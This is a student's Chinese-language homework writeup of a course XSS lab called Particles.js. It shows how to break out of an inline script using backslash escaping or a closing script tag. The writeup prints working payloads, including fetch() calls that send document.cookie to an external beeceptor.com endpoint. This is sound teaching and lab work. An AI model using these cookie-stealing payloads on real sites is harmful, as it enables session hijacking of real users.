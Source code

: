 # 2022 Computer Security HW10 Writeup - Web

* [HW10 github (Writeup and Payload)](https://github.com/fdff87554/Computer-Security-2022/tree/main/homework/Homework-10)

## Particles.js - Lab
* 這題是一個 XSS 的 Example，雖然畫面中沒有輸入匡，但是可以從 url 發現我們選擇的 theme 會被帶入 url 中，而且可以看一下 source code，可以看到 config.value 會被直接帶入 script 中，所以我們可以利用這個特性來做 XSS。
* 攻擊的 Source code 區段為下，
    ```javascript=
    <script>
    url.value = location; config.value = 'bubble'; fetch('/bubble.json').then(r => r.json()).then(json => {
        particlesJS("particles-js", json)
    })
    </script>
    ```
* 那先來考慮如何建構 XSS，在輸入的過程中我們可以發現 server side 有過濾 `'`，因此如果要跳脫 `<script>` 內部的文字內容，我們可以利用 `\` 來做跳脫，會發生什麼事情是今天 Javascript 中的 `config.value = '\'; fetch('/\').thenj(r => ...` 這段的 `'; fetch(` 會因為前面的 `'` 被反斜跳脫而變成字串，直到 `fetch` 本身的單引號為止，都被視為 `config.value` 的字串。
    > ![web-lab01-xss-example-with-backslash](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/week-02/web-lab01-xss-example-with-backslash-1.png)
* 那要記得我們的資料會被同步在 `config.value='<input>'` 跟 `fetch('/<input>.json')` 這個區域，那我們已經知道到 `/` 之前的資料都會被反斜線變成字元了，因此可以想像一下在反斜線之前添加怎樣的字串來建構惡意的 payload。舉例來說 payload=`1;\` 可以讓 config.value 語句完全中斷，然後後面的部分我們可以直接隨便在串接起來。我們先嘗試建立一個合法的 JS 讓語句能回彈 alert()，payload=`1;alert(1);console.log({x://\`，可以看到 alert() 成功被觸發。
    > ![web-lab01-xss-example-with-backslash](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/week-02/web-lab01-xss-example-with-backslash-2.png)
    > ![web-lab01-xss-example-with-backslash-alert](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/week-02/web-lab01-xss-example-with-backslash-alert.png)
* 那今天我們的目標是去偷 cookie，一般來說可以用 `doument.cookie` 來取得，那我們試著把 cookie 混在一段 request 中丟出來取得，payload=`1;fetch("https://crazyfirelee.free.beeceptor.com?"+document.cookie);console.log({x://\`，可以看到我們的 cookie 成功被送出。**這邊要特別注意的是，在 url 中的 `+` 要用 `%2b` 代替**
    > ![web-lab01-xss-example-with-backslash-cookie](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/week-02/web-lab01-xss-example-with-backslash-cookie.png)
* 那這邊除了用 `\` 反斜線來跳脫以外，講師還有提到另一個 JS 的特性就是不管在哪裡，只要看到 `<script>` 就會視為 JS Tag，因此假設我們今天不用反斜線而是用 `</script>` 來閉合這段 JS，就可以直接從後面建構新的 JS 區段了。因此回到最一開始，如果我們利用 `</script>` 作為跳脫，可以看到剛剛的 JS 區段被截斷而後半部直接被遺棄。
    > ![web-lab01-xss-example-with-script](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/week-02/web-lab01-xss-example-with-script.png)
* 但這邊還沒有成功實作出怎麼利用 `</script>` 建構 payload，等之後有成功會補上。
    > 嘗試了一下 `</script><script>fetch("https://crazyfirelee.free.beeceptor.com?"+document.cookie);</script>` 會在 enter 之後直接送兩次 fetch 出來，但在 report 的時候不會觸發，還沒理解為什麼。


---
###### tags: `CyberSec` `Writeup` `2022`

<style>
.navbar-brand::after { content: " × Crazyfire Lee"; }
</style>